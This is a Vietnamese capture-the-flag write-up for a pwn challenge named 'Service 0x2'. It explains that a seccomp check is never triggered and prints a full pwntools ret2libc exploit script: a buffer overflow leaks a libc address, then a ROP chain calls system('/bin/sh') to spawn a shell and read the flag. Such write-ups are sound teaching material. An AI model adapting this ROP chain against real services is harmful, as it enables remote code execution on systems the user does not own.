 # Service 0x2

![description](./image1.png)

Mới đầu mình tưởng đây sẽ là 1 bài nâng cấp so với với 2 bài của phần thi khởi động. Nhưng có vẻ tác giả đã có sự nhầm lẫn :v
![meme](./image3.png)

---
![main](./image2.png)

bài khá đơn giản, có một đoạn kiểm tra biến global `check` nhưng không có đoạn nào làm thay đổi giá trị biến này. Nên `setup_seccomp()` sẽ không được gọi. Nên mình bỏ qua đoạn này và làm như dạng `ret2libc` thông thường. Cách làm giống bài vòng khởi động nên mình sẽ không nói nhiều.

---
đây là script của mình:

```python
from pwn import *

# Many built-in settings can be controlled via CLI and show up in "args"
# For example, to dump all data sent/received, and disable ASLR
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *main + 293
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './chall_patched'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
#context.log_level = 'debug'
# Delete core files after finished
context.delete_corefiles = True

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
p = start()
rop = ROP(elf)
libc = ELF('./libc-2.31.so')
context.arch = 'amd64'
payload = b"a" * 44 + p32(0x1) 
payload += p64(0xdeadbeef)
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['main'])
p.sendlineafter(b"> ",payload)
p.sendlineafter(b"> ", b'1')
p.recvline()
leak = u64(p.recv(6).ljust(8, b'\x00'))
log.info("leak: " + hex(leak))
libc.address = leak - libc.symbols['puts']
log.info("libc.address: " + hex(libc.address))  
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh'))
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh'))
payload = b"a" * 44 + p32(0x1) + p64(0xdeadbeef)
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(binsh_addr)
#ret = rop.find_gadget(['ret'])[0]
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(system_addr)
p.sendlineafter(b"> ",payload)
p.sendlineafter(b"> ", b'1')
p.sendline(b'cat /home/ctf/flag.txt')
p.interactive()
```

server đã tắt và trong lúc thi mình cũng không cap lại ảnh.
Flag: `ASCIS{syscall_g00d_int_0x80_b3st}`

Đọc flag thì mình có thì mình có đoán ý tưởng ban đầu của tác giả sẽ giống 1 bài mình từng làm. Mình để tạm Writeup của bạn Trí của cơ sở miền nam ở đây các bạn có thể đọc thêm: [writeup](https://github.com/nhtri2003gmail/CTFWriteup/tree/master/2022/KMACTF-2022/Duet)
